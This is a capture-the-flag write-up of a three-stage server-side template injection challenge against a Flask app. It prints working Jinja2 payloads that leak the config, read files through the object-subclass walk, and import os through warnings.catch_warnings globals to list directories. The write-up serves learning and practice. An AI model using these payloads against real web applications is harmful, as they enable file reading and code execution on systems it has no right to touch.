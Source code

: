 # Hello, friend! writeup

### Stage 1

The site uses `render_template_string()` with user-controlled input, so we have ourselves a nice SSTI vulnerability.

The first task tells us to check the `config` object, which contains Flask configuration options (http://flask.pocoo.org/docs/0.12/config/).

Let's check out the object in the python interpreter!

```
>>> from flask import Flask
>>> app = Flask(__name__)
>>> config
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  NameError: name 'config' is not defined
>>> app.config
  <Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'LOGGER_NAME': '__main__', 'DEBUG': False, 'SECRET_KEY': None, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': 43200, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_SECURE': False, 'TRAP_HTTP_EXCEPTIONS': False}>
```

Simply writing `{{ config }}` in the URL will allow us to view all the values in the HTML of the site. Or, we can write `{{ config.items() }}` to have the written out:
```
[('JSON_AS_ASCII', True), ('USE_X_SENDFILE', False), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_NAME', 'session'), ('FLAG', 'TG17{everyone_needs_a_little_introspection}'), ('LOGGER_NAME', '__main__'), ('DEBUG', False), ('SECRET_KEY', None), ('MAX_CONTENT_LENGTH', None), ('APPLICATION_ROOT', None), ('SERVER_NAME', 'localhost:1060'), ('PREFERRED_URL_SCHEME', 'http'), ('JSONIFY_PRETTYPRINT_REGULAR', True), ('TESTING', False), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(31)), ('PROPAGATE_EXCEPTIONS', None), ('TRAP_BAD_REQUEST_ERRORS', False), ('JSON_SORT_KEYS', True), ('SESSION_COOKIE_HTTPONLY', True), ('SEND_FILE_MAX_AGE_DEFAULT', 43200), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SESSION_COOKIE_SECURE', False), ('TRAP_HTTP_EXCEPTIONS', False)]!
```

Tasty flag for us: `TG17{everyone_needs_a_little_introspection}`.


### stage 2
Time to read a file!

Before testing stuff on the website, let's see what we can do in the interpreter.

```
>>> file("flag.txt")
<open file 'flag.txt', mode 'r' at 0x10e586420>
>>> file("flag.txt").read()
'yolo\n'
>>>
```

Trying this on the site, however, gives us an internal server error :(

We have to find another way to access the `file` object. Luckily, we can do so with a neat trick to find all the subclasses of object!

```
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
>>> cnt = 0
>>> for c in [].__class__.__base__.__subclasses__():
...	if c == file:
...		print "yay: {}".format(cnt)
...	cnt += 1
...
yay: 40
>>> [].__class__.__base__.__subclasses__()[40]
<type 'file'>
```

Now, visiting `/{{ [].__class__.__base__.__subclasses__()[40]("flag.txt").read() }}` should give us the flag!

```
Hello TG17{templates_so_safe} !
```

### stage 3
Okay, so this time we have to list the current directory. There are many ways to achieve this in python, but I'll use `os.listdir()`.

With some experience from other CTF tasks where we had to break out of python jails, we know that the `warnings.catch_warnings` class contains a reference to the python builtin functions:
```
>>> s = [].__class__.__base__.__subclasses__()[59]
>>> s
<class 'warnings.catch_warnings'>
>>> s.__repr__.im_func.func_globals["__builtins__"]["__import__"]
<built-in function __import__>
```

With import, we can get access to `os.listdir()`.
Send this to the server: `[].__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["__builtins__"]["__import__"]("os").listdir(".")`:
```
Hello ['flag.cfg', 'flag.txt', 'pwn', 'README.md', 'run.sh', 'secret', 'server.py', 'server_hard.py', 'the_flag_is_TG17{templating_done_right}', 'writeup.md']!
```

And we got our flag! `TG17{templating_done_right}`

### Resources
* https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2/

* https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/
